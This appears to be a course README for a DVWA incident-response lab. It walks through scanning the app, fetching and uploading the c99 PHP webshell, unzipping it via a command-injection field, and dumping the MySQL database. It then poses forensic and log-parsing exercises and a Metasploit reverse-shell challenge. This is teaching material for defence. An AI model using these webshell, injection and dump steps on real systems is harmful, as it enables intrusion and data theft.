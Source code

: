 # Week 1 - Dam Vulnerable Web App(DVWA)
This week we are using DVWA for our incident response demo. DVWA provides a broken webapp that is ready to be hacked out of the box. Docker was platform of choice because if a container becomes corrupted just restart it :).

## Setup demo
### AWS security group
0. Restrict AWS security group to RIT IP address range

### Setup DVWA on AWS Ubuntu 16.04
0. vim hosts and add IP addr of host under "[dvwa]"
0. ansible-playbook -i hosts deploy_dvwa.yml

### Access Docker container
0. ssh to host
0. docker exec -it dvwa_demo bash

## Perform attack
### Nikto scanner
0. nikto -host http://52.53.172.255

### Zip, upload and unzip c99.php
0. Start Kali Linux VM
0. wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php
0. gzip -f c99.php
0. Browse http://<IP addr of DVWA> with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter "/bin/gunzip -v ../../hackable/uploads/c99.php" into "Enter ip address"
0. Browse to http://<IP addr of DVWA>/hackable/uploads/c99.php

### Dump database
0. mysql -u root -e "show databases;"
    1. There is no root password
0. mysql -u root -e "use dvwa; show tables"
0. mysqldump -u root --database dvwa

## Incident reponse demo
### Understanding the machine
It is important to understand the machine you are investigating
0. What is the operating system of the attacker machine?
0. What is the kernel of the attacked machine?
0. What timezone  of the attacked machine?
0. What is the ip address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What services are listening on the box and what ports?(hint netstat)?
0. What are the versions of the services?
0. Do the services have any known vulnerabilities?
0. What users are on the attacked machine?

### Become the cyber detective
0. Where are the web servers logs located?
0. What is the diff between the error.log and access.log
0. What are the user permissions of the log files?
0. What is the timezone and time format of the webservers logs
0. What is the attacker's IP address
0. What is the attackers user-agent?
0. What webshell did the attacker use?
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Lookup three mitigations for next week

### Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you receive no points for everything else
0. Create a script in your language of choice to do everything in the “understanding the machine” and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY


### Red team challenge
Create a PHP reverse shell with Metasploit
* attack: http://<IP addr of DVWA>:8080
* DO NOT ATTACK port 80

### Restart Docker container if corrupted
0. docker restart dvwa_pwn

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html